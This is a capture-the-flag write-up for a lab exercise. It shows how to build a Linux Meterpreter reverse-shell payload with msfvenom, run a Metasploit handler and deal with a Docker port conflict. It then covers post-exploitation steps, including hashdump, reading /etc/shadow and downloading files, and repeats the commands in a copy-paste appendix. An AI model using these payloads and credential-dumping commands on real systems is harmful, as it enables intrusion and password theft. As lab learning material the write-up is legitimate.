 # tryhackme — msvenom / reverse shell writeup

**Room:** msvenom / reverse shell (TryHackMe)  
**Author:** David Martinez  
**Date:** 2025-10-30  
**Target:** Lab VM (Linux)  
**Attacker:** Kali / Attack VM (10.201.123.188)

---

## Objective
- Use `msvenom` to generate a Linux reverse Meterpreter payload, deploy it to the target VM, obtain a Meterpreter session, escalate if necessary, and retrieve the password flag.

---

## Tools
- `msfvenom` (Metasploit Framework)
- `msfconsole`
- `netcat` / `nc` (for quick TCP checks)
- `ss` / `lsof` (port/process troubleshooting)
- `docker` (was present on the attacker box and caused a bind conflict)
- `hashdump` (Meterpreter / post module)
- Basic Linux CLI: `scp`, `chmod`, `file`, `strings`, `tcpdump`

---

## Recon / Preparation
1. Confirm attacker interface and IP:
```bash
ip addr show
# confirm 10.201.123.188 exists on an interface (e.g., tun0, eth0)
```

2. Generate the payload with `msfvenom` (example):
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.201.123.188 LPORT=7777 -f elf -o reverse_shell.elf
```

3. Make it executable and transfer to the target (example using `scp`):
```bash
chmod +x reverse_shell.elf
scp reverse_shell.elf user@<target-ip>:/tmp/
```

---

## Problem encountered (handler bind failure)
When starting the Metasploit handler, the attempt to bind to `10.201.123.188:7777` failed with:
```
Rex::BindFailed The address is already in use or unavailable: (0.0.0.0:7777)
```
Inspection showed port 7777 was already bound by Docker’s proxy:
```bash
sudo ss -ltnp | grep :7777
# output showed: users:(("docker-proxy",pid=1694,fd=4))
```

### Fixes tried
**Option A — Free the port used by Docker**
```bash
# find container publishing 7777
sudo docker ps --format '{{.ID}}	{{.Names}}	{{.Ports}}' | grep 7777

# stop/remove the container
sudo docker stop <CONTAINER_ID>
sudo docker rm <CONTAINER_ID>
```
After stopping/removing the container, the port was freed and the handler could bind successfully.

**Option B — Use a different port**
If freeing the port is undesirable, re-generate the payload and use a different LPORT (e.g., `4444`) in both the payload and the handler:
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.201.123.188 LPORT=4444 -f elf -o reverse_shell_4444.elf
# in msfconsole set LPORT 4444 before running handler
```

Also note the `sudo: unable to resolve host ip-10-201-123-188` warning — a quick fix is to ensure the hostname is present in `/etc/hosts`:
```bash
echo "127.0.1.1 ip-10-201-123-188" | sudo tee -a /etc/hosts
```

After freeing the port or switching ports, the handler should bind cleanly and catch the reverse shell when the payload is executed on the target.

---

## Exploitation / Getting a session
1. Start the Metasploit handler:
```bash
msfconsole
use exploit/multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST 10.201.123.188
set LPORT 7777
set ExitOnSession false
exploit -j -z
```

2. Execute the payload on the target:
```bash
chmod +x /tmp/reverse_shell.elf
/tmp/reverse_shell.elf
```

3. Observe incoming connection and session creation in `msfconsole`:
```bash
sessions -l
sessions -i <id>
```

---

## Post-exploitation — dumping hashes & getting the flag
With a Meterpreter session established:

1. Confirm privileges and host:
```meterpreter
meterpreter > sysinfo
meterpreter > getuid
```

2. If meterpreter has sufficient privileges (SYSTEM/root), run:
```meterpreter
meterpreter > hashdump
```
or use the post module:
```bash
# from msfconsole
use post/windows/gather/hashdump
set SESSION <session-id>
run
```
> Note: On Linux targets there is no SAM — to retrieve password hashes you need root access to `/etc/shadow`:
```meterpreter
meterpreter > shell
# in shell
sudo cat /etc/shadow
# or download:
meterpreter > download /etc/shadow /tmp/shadow-copy
```

3. Retrieve the flag (the lab’s password flag):
- Locate the flag file (example common locations: `/root/flag.txt`, `/home/username/flag.txt`).
```bash
meterpreter > shell
# then on target shell
cat /root/password_flag.txt
# or
meterpreter > download /root/password_flag.txt
```

**Flag (redacted in public repo):**
```
# DO NOT PUBLISH REAL FLAG HERE — keep it private in CTF writeups
```

---

## Evidence / Artifacts (examples to include in repo)
- `file reverse_shell.elf` output (binary type & arch)
- `strings reverse_shell.elf | grep -i meterpreter` (showing embedded identifiers)
- `sudo ss -ltnp | grep :7777` output showing docker-proxy PID
- `msfconsole` session log: `sessions -l` output and `hashdump` output (redact sensitive data)
- Packet capture snippet showing target → attacker TCP connect (from `tcpdump`)

---

## Lessons learned / Notes
- Always verify the LHOST is present on an attacker interface (`ip addr show`) — otherwise `bind()` may behave unexpectedly.  
- If `Rex::BindFailed` occurs, check for any process (including Docker) binding the port and either stop it or choose another port.  
- For Windows hash dumping, `hashdump` / `mimikatz` require SYSTEM privileges. For Linux, you need root access to `/etc/shadow`.  
- Keep your payload and handler LHOST/LPORT consistent. If in doubt re-generate the payload.  
- Always redact real flags and sensitive data before posting to a public repo.

---

## References
- Metasploit Framework: `msfconsole`, `msfvenom`, `exploit/multi/handler`  
- Meterpreter commands: `hashdump`, `migrate`, `sysinfo`, `getuid`  
- TryHackMe room materials (do not copy proprietary content; link only when allowed by room rules)

---

## Appendix — Useful commands (copy/paste)
```bash
# Generate payload
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.201.123.188 LPORT=7777 -f elf -o reverse_shell.elf

# Check port usage
sudo ss -ltnp | grep :7777
sudo lsof -i :7777

# Kill container binding a port
sudo docker ps --format '{{.ID}}	{{.Names}}	{{.Ports}}' | grep 7777
sudo docker stop <ID> && sudo docker rm <ID>

# Start handler
msfconsole -q
use exploit/multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST 10.201.123.188
set LPORT 7777
set ExitOnSession false
exploit -j -z

# Meterpreter basics
meterpreter > sysinfo
meterpreter > getuid
meterpreter > hashdump
meterpreter > shell
meterpreter > download /root/password_flag.txt
```
